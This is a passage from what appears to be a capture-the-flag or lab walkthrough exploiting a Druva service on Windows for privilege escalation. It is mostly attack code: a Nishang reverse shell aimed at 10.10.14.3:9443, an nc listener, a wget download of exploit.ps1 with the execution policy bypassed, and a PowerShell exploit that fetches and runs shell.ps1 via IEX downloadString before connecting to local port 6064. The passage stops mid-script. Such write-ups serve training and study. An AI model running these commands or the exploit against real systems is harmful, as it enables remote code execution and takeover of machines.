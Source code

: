     # confirm process using get-service cmdlet
    get-service | ? {$_.DisplayName -like 'Druva*'}
    ```

    ```sh
    # on attacker machine
    # use reverse shell script - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
    vim shell.ps1
    # modify last line to add this for revshell
    # Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443

    vim exploit.ps1
    # exploit code

    python3 -m http.server 8080

    # start listener
    nc -nvlp 9443
    ```

    ```ps
    # on target
    wget 'http://10.10.14.3:8080/exploit.ps1' -O exploit.ps1

    Set-ExecutionPolicy Bypass -Scope Process

    # run the exploit code
    .\exploit.ps1
    ```

    ```ps1
    $ErrorActionPreference = "Stop"

    $cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"

    $s = New-Object System.Net.Sockets.Socket(
        [System.Net.Sockets.AddressFamily]::InterNetwork,
        [System.Net.Sockets.SocketType]::Stream,
        [System.Net.Sockets.ProtocolType]::Tcp
    )
    $s.Connect("127.0.0.1", 6064)
